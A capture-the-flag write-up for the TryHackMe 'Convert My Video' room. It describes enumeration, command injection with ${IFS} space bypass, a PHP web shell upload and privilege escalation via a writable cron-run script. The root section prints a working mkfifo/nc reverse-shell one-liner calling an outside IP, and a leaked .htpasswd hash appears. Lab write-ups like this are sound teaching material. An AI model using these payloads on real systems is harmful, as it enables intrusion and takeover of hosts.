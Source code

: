# Convert My Video 

- https://tryhackme.com/room/convertmyvideo
- March 10, 2023
- medium 

---

## Enumeration

### Nmap 

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.29 ((Ubuntu))

### HTTP

- directory brute forcing with ffuf
```
admin -> 401
images -> 403
js -> 403
tmp -> 403
```

- admin

![](./screenshots/2023-03-10-17-58-43.png)

- post video ID

![](./screenshots/2023-03-10-18-01-35.png)

```json

{
    "status":1,
    "errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Incomplete YouTube ID abcde. URL https:\/\/www.youtube.com\/watch?v=abcde looks truncated.\n",
    "url_orginal":"https:\/\/www.youtube.com\/watch?v=abcde","output":"",
    "result_url":"\/tmp\/downloads\/640b14c2d0cad.mp3"
}
```

- main.js file

```javascript
$(function () {
    $("#convert").click(function () {
        $("#message").html("Converting...");
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

- try to execute some linux command 

![](screenshots/2023-03-10-18-28-50.png)

- it is vulnerable to command execution
- command execution can take place without youtube url

![](screenshots/2023-03-10-18-43-04.png)

- it is ok, but if there is space in command, it will not execute
- I searched google and found this https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces
- substitute `${IFS}`  (it works for bash, not for zsh)

![](screenshots/2023-03-10-18-47-38.png)

- try with reverse shell is not successful and upload php shell

![](screenshots/2023-03-10-18-53-11.png)

- make sure there was `shell.php` file

![](screenshots/2023-03-10-18-54-16.png)


## User Access

- listen with nc and 
```sh
curl http://$IP/shell.php
```
- will get www-data's shell

- explore and can't find a way and run linpeas 

```sh
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 www-data www-data 49 Apr 12  2020 /var/www/html/admin/.htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

- crack and found password
- it is just username and password for entering admin route of website


## Root Access


- there is no cron job in cron tab 
- run pspy and find which processes are running

![](screenshots/2023-03-10-19-16-51.png)

- cleanup.sh flie is running once per minute

```sh
$ ls -l
total 4
-rw-r--r-- 1 www-data www-data 17 Apr 12  2020 clean.sh
$ cat clean.sh
rm -rf downloads
```

- it is www-data's file 
- change `clean.sh` file to get reverse shell of other user,may be root user

```sh
$ cat clean.sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4243 >/tmp/f
```
- listen with nc and 
- wait for a minute 
- get root access

---